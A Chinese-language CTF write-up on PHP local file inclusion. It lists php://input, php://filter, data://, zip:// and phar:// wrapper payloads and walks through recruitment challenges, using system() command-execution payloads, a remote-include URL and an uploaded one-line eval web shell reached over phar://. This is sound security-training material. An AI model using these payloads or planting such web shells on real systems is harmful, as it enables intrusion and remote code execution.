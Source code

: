 ```yaml
---
title: Local file include
tags:
  - CTF
  - 本地文件包含
catagories: CTF
mathjax: true
abbrlink: 25287
date: 2023-10-31 19:42:00
update: 2023-10-31 19:42:00
---
```

本地文件包含经常配合文件上传使用。即上传图片马->文件包含执行
# PHP伪协议
<center>

|协议|allow_url_fopen|allow_url_include|PHP版本|用法  
|:---:|:---:|:---:|:---:|:---:|  
|php://input|不受限|On||?file=php://input [POST DATA] <?php [代码] ?>|  
|php://filter|不受限|不受限||?file=php://filter/read=convert.base64-encode/resource=xxx.php|  
|zip://、zlib://、bzip://|不受限|不受限|>=php5.3.0|?file=zip://[压缩包绝对路径]%23[压缩包内文件]  
|phar://|不受限|不受限|>=php5.3.0|?file=phar://[压缩包路径]/[压缩包内文件]  
|data://|On|On||?file=data://, ?file=data://text/plain, ?file=data://text/plain;base64,[编码后的php代码]

</center>

``allow_url_fopen``为``On``时，能读取远程文件，例如``file_get_contents()``就能读远程文件  
``allow_url_include``为``On``时，就能使用``include``和``require``等方式包含远程文件  
需要注意的是，zip://伪协议需要安装zlib扩展  
## php://input
### Yulin招新LFI第二题  
打开题目页面，只有一个phpinfo链接  
![题目](./Local%20file%20include/1.png "题目")  
查看*phpinfo*，发现``allow_url_fopen``和``allow_url_include``都为$On$
![phpinfo](./Local%20file%20include/2.png "phpinfo")  
任意包含一个文件，出现提示 *flag在当前目录的某个文件中*  
因此考虑使用``php://input``伪协议执行代码
![post](./Local%20file%20include/3.png "post")  
构造代码``<?php system("ls"); ?>``进行post，得到文件列表，flag显然在flag_195780473.txt中，``cat flag_195780473.txt``得到flag  
![flag](./Local%20file%20include/4.png "flag")
### Yulin招新LFI第五题
打开题目页面，展示了源代码  
![题目](./Local%20file%20include/9.png "题目")  
发现代码逻辑为读取``file``参数传入的文件内容，将其与``I want flag``进行比较，相等则给出flag  
刚开始思路为远程文件包含。在远程服务器建立html文件，内容为``I want flag``，**使用file_put_contents函数**构造payload``?file=http://[remote addr]/payload.html``直接get远程文件即可  
![flag](./Local%20file%20include/16.png "flag")  
该题还可以使用``php://input``伪协议绕过``file_get_contents``函数  
在burpsuite构建post数据  
![post](./Local%20file%20include/10.png "post")  
成功get flag
![flag](./Local%20file%20include/11.png "flag")  
参考：[CTF bugku web file_get_contents WriteUp](https://zhuanlan.zhihu.com/p/401511726)
## data://
### Yulin招新LFI第三题  
题目页面同上第二题，只有一个phpinfo链接，查看*phpinfo*，发现``allow_url_fopen``和``allow_url_include``都为$On$  
![phpinfo](./Local%20file%20include/2.png "phpinfo")  
重复上题操作，发现题目过滤了``php://input``伪协议  
![hack](./Local%20file%20include/5.png "hack")  
因此考虑使用``data://``伪协议，尝试构造payload``?file=data://text/plain,%20<?php%20system("ls");%20?>``，发现执行成功  
![ls](./Local%20file%20include/6.png "ls")  
直接``cat flag_8491675293.txt``得到flag  
![flag](./Local%20file%20include/7.png "flag")  
## php://fliter
以Yulin招新LFI第四题为例  
题目页面提示flag就在flag.php内
![tips](./Local%20file%20include/8.png "tips")  
但没有显示，因此考虑使用``php://fliter``伪协议直接读取flag.php内容  
![](./Local%20file%20include/6.png "ls")  
得到flag.php内容的base64编码
```base64
ZmxhZ+WwseWcqOi/me+8jOWPr+aYr+iXj+WcqOWTqumHjO+8nyjila/CsNCUwrAp4pWvIOKUu+KUgeKUuw0KPD9waHANCiRmbGFnID0gJ1l1bGluU2Vje04wd195MHVfc2VlX21lITc1MTRXUXp4d30nOw0KPz4NCg==
```
解码得到flag
```php
flag就在这，可是藏在哪里？(╯°Д°)╯ ┻━┻
<?php
$flag = 'YulinSec{N0w_y0u_see_me!7514WQzxw}';
?>
```
## phar://
### Yulin招新LFI第六题   
打开题目，观察链接，推测文件包含时在输入的``file``值后添加了``.php``，因此无法直接构造图片马上传  
![题目](./Local%20file%20include/12.png "题目")  
因此考虑使用压缩包上传木马，构造木马
```php
<?php @eval($_POST['6']);
```
将其压缩为zip上传  
![upload](./Local%20file%20include/13.png "upload")  
打开蚁剑，用``phar://``伪协议直接连接  
![connect](./Local%20file%20include/14.png "connect")  
成功get flag  
![flag](./Local%20file%20include/15.png "flag")  